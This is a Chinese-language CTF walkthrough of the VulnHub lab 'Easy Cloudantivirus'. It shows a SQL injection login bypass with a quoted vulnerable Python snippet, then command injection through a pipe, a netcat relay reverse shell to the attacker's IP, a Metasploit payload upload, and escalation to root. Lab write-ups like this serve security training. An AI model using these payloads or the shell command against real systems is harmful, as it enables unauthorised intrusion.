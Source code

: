 ```yaml
---
title: VulnHub靶场 Easy Cloudantivirus
description: VulnHub靶场 Easy Cloudantivirus WP
pubDate: 10 19 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-1.webp)

目标锁定 `192.168.135.205`，对其进行端口扫描，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-2.webp)

在目标 IP 下的 8080 端口，有一个 Python 的 WEB 服务，访问页面得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-3.webp)

要求填写邀请码进行使用。进行 FUZZ 测试，在测试 `"` 的时候，出现的 sqlite3 报错

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-4.webp)

直接把代码爆出来了。

```python
def login():
    password = request.form['password']
    if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
        session['logged_in'] = True
		return 'Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />'
    else:
        return "WRONG INFORMATION"
```

看一下 sql 语句

```sql
select * from code where password="' + password + '"
```

简单构建一下

```sql
select * from code where password="' + " or 1=1# + '"
```

即输入 `" or 1=1#`，进行尝试，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-5.webp)

额……换个 `--` 注释试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-6.webp)

成功，返回了一个 `ls -l` 的命令结果。说明后端执行了命令，试试管道符

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-7.webp)

成功执行命令，我们借此可以反弹 shell，发现目标靶机自带 nc，尝试连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.webp)

失败了，可能是版本不对……，想到一个法子

```shell
nc 192.168.135.192 9999 | /bin/bash | nc 192.168.135.192 8888
```

第一个的结果传递给 `/bin/bash`，然后再传递给第二个连接，这样不就另类的实现了 shell 嘛

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-9.webp)

成功。不过这样有点麻烦，直接传一个 MSF 马进去

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-10.webp)

成功喽。有一个数据库文件，下载下来，啥也没有。

再进行信息收集的时候，发现在 `/home/scanner` 下，有一个可执行的，有 sudo 权限的，属主为 root 用户的 c 源文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-11.webp)

查看一下源码内容

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-12.webp)

这是一个更新脚本，要求传递两个参数，拿 nc 简单试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-14.webp)

查看反弹结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-13.webp)

成功得到 root 权限，然后再传 MSF 马，得到 root 权限的 MSF 后门

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-15.webp)

成功拿到 root 权限
